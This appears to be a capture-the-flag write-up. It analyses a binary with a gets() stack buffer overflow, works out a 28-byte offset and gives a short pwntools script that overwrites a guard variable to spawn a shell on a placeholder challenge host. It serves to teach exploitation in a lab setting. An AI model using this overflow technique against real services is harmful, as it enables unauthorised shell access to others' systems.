




## Solution

To analyze the binary, we use [Cutter](https://github.com/rizinorg/cutter).

## Analysis

  


By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- A local variable `var_ch` is initialized to `0x4d2` (which is **1234** in decimal).
- The program checks if `var_ch == 0x162e` (**5678** in decimal).
- If this condition is met, it prints `"Welcome home!"` and invokes the `shell()` function, which spawns a Bash shell using `system("/bin/bash")`.
- Otherwise, it prints:  
  `You are lying. No access for you.`




Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x28
; var unsigned long long var_ch @ stack - 0xc
```


This means:
- The buffer `s` starts at `rbp - 0x28`
- The target variable `var_ch` is at `rbp - 0xc`
- To reach and overwrite `var_ch`, we need to overflow `0x28 - 0xc = 0x1C` bytes (28 bytes)

Plan:
1. Fill 28 bytes to overflow the buffer.
2. Overwrite `var_ch` with `0x162e` (5678 in decimal).


### Exploit Code

We can use Pwn Tools to write the exloit

```python
from pwn import *

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1337)

# 28 bytes padding + 4 bytes to overwrite var_ch
payload = b"A" * (0x28 - 0xc) + p32(0x162e)

# Send the crafted input
p.sendline(payload)

# Interact with the shell
p.interactive()
```

Running the exploit results in a shell:



You can now grab the flag or run further commands.